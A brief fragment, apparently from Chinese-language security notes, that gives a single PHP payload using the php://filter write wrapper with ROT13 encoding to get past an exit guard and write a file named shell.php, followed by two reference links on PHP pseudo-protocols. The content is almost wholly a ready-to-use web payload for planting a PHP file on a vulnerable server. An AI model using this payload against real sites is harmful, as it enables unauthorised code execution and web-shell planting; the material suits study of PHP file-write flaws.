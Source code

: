 payload:

```
php://filter/write=string.%7%32ot13|<?cuc cucvasb();?>|/resource=shell.php
```





参考链接:

https://www.anquanke.com/post/id/202510#h3-18

https://yanmie-art.github.io/2020/09/05/%E6%8E%A2%E7%B4%A2php%E4%BC%AA%E5%8D%8F%E8%AE%AE%E4%BB%A5%E5%8F%8A%E6%AD%BB%E4%BA%A1%E7%BB%95%E8%BF%87/

